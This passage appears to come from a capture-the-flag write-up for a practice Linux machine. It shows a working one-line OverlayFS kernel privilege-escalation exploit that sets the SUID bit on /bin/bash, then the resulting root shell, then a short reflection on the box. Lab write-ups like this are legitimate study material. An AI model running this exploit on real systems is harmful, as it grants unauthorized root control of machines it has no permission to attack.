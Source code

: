 ```
metalytics@analytics:~$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("chmod +s /bin/bash")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
Failed to set capabilities on file `l/python3' (No such file or directory)
The value of the capability argument is not permitted for a file. Or the file is not a regular (non-symlink) file
metalytics@analytics:~$ ls -al /bin/bash
-rwsr-sr-x 1 root root 1396520 Jan  6  2022 /bin/bash
```
We still get an error about capability permissions, but when we look at the bash file, we can see SUID is set! we can now enter a bash session as root:
```
metalytics@analytics:~$ bash -p
bash-5.1# whoami
root
bash-5.1# 
```
## Reflection
The box is very simple and easy in terms of the number and complexity of steps, with no real amount of depth to them. The path to user was at least unique enough to feel fresh, but the path to root felt stale, and the difficulty was entirely built on the fact that the CVE is not included in the current common kernel exploit scanners (at the time).
